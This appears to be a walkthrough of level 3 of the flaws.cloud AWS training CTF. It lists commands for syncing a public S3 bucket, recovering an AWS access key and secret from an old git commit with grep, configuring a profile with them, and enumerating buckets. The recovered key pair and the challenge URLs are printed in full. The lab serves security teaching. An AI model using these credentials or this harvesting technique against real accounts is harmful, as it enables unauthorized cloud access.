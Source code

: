 ## Guide Table of Contents

## Commands Used in Challenge 
| 3. :pager: Command                                                                           | Description                                                             |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 3.0. :pager: Access Key in Git Log Commits                                                | Older Git Commits Contains access_keys.txt                                 |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 3.1. :pager:  `Flaws-Scripts/aws_cli_configure.sh`   | Configure AWS CLI                        |
| 3.2. :pager: `aws s3 ls --profile $AWS_USER_NAME $L3_BUCKET_URL` | Access & List S3 Bucket Files using AWS CLI - Authenticated |
| 3.2. :pager: `aws s3 ls $L3_BUCKET_URL --no-sign-request --region $AWS_REGION` | Access & List S3 Bucket Files using AWS CLI - Authenticated |
| 3.3. :pager: `aws s3 sync --profile $AWS_USER_NAME $L3_BUCKET_URL --region $AWS_REGION ./flaws3` | Access & List S3 Bucket Files using AWS CLI - Authenticated |
| 3.4. :pager: `cd flaws3 && git log` | View Latest Git Commit Log  |
| 3.5. :pager: `git checkout $L3_COMMIT` | View Latest Git Commit Log  |
| 3.6. :pager: `export L3_ACCESS_KEY=$(grep -oP '^access_key\s+\K[A-Za-z0-9]+' $L3_SECRET_FILE)` | Get AWS Level Access Key  |
| 3.7. :pager: `export L3_SECRET_KEY=$(grep -oP '^secret_access_key\s+\K[A-Za-z0-9+/]+' $L3_SECRET_FILE)` | Get AWS Secret Access Key  |
| 3.8. :pager: `Scrtips/aws_cli_configure_L3Profile.sh` | Set L3 Found Profile URL  |
| 3.9. :pager: `aws --profile $L3_USER s3 ls` | List all S3 Buckets  |
| 3.10. :pager: `aws s3 ls --profile $L3_USER_NAME | grep -oP 'level4-\S+\.flaws\.cloud'` | Get Level 4 URL (All Levels)  |
| 3.11. :pager:  `Flaws-Scripts/aws_cli_configure_L3Profile.sh`   | Configure AWS CLI                        |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------|


## Important Notes from Challenge
| 3. :pushpin: Pin                 | Content                                                                                  |
|-------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------|
| 3.0. :pushpin: Access Key in Git Log Commits  | Older Git Commits Contains access_keys.txt                                                                        |  
|-------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------|
| 3.1. :pushpin:  Level 3 URL          | [Level 3 URL](http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud)                                                             |
| 3.2. :pushpin:  Level 3 Bucket URL          | [Level 3 URL](s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud)                                                             |
| 3.3. :pushpin:  Level 3 Sensitive Git Commit          | f52ec03b227ea6094b04e43f475fb0126edb5a61                                                             |
| 3.4. :pushpin:  Level 3 User          | L3Profile                                                             |
| 3.5. :pushpin:  Level 3 Access Keys File          | access_keys.txt                                                             |
| 3.6. :pushpin:  Level 3 Access Key ID          | AKIAJ366LIPB4IJKT7SA                                                             |
| 3.7. :pushpin:  Level 3 Secret Access Key ID          | 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                                                             |
| 4.1. :pushpin: Level 4 URL                             | [Level 4](level4-1156739cfb264ced6de514971a4bef68.flaws.cloud) |      
|-------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------|

# Levels
